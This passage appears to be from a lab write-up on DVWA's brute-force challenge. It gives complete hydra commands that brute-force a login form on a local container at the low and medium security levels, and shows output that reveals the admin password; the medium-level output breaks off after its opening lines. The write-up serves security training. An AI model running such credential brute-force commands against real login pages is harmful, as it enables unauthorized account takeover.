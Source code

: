 In this case for simplicity we have chosen the tool par excellence for brute force attacks `hydra`, the command to execute is the following: `hydra -l admin -P /usr/share/wordlists/fasttrack.txt -v 172.17.0.2 http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=lil7dlgeij03e1p484m90hl8m6; security=low:Username and/or password incorrect."`

The output is as follows:

```txt
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-29 12:18:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking http-get-form://172.17.0.2:80/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=lil7dlgeij03e1p484m90hl8m6; security=low:Username and/or password incorrect.
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-get-form] host: 172.17.0.2   login: admin   password: password
[STATUS] attack finished for 172.17.0.2 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-29 12:18:58
                                                                                       
```

#### Normal

Again we try the previous command, surprisingly this time **yes** it works, we just notice a considerable increase of the execution time, to alleviate this we add more threads to the command by means of the `-t` flag. The complete command is the following :` hydra -l admin -P /usr/share/wordlists/fasttrack.txt -v 172.17.0.2 -t 64 http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=lil7dlgeij03e1p484m90hl8m6; security=medium:Username and/or password incorrect."`

Its corresponding output:

```txt
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-29 12:22:30
